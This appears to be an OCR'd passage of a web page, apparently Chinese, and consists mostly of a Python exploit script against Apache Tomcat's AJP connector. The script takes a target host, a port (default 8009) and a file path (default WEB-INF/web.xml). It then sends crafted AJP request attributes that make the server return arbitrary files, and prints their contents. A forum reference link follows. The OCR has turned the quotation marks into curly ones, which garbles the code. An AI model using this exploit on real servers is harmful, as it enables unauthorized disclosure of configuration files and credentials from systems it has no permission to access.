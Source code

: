 ```

parser = argparse.ArgumentParser()

parser.add_argument(“target”, type=str, help=“Hostname or IP to attack”)

parser.add_argument(’-p’, ‘–port’, type=int, default=8009, help=“AJP port to attack (default is 8009)”)

parser.add_argument("-f", ‘–file’, type=str, default=‘WEB-INF/web.xml’, help=“file path :(WEB-INF/web.xml)”)

args = parser.parse_args()

t = Tomcat(args.target, args.port)

_,data = t.perform_request(’/asdf’,attributes=[

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.request_uri’,’/’]},

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.path_info’,args.file]},

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.servlet_path’,’/’]},

])

print(’----------------------------’)

print("".join([d.data for d in data])) 
```

## 参考链接

> https://forum.90sec.com/t/topic/801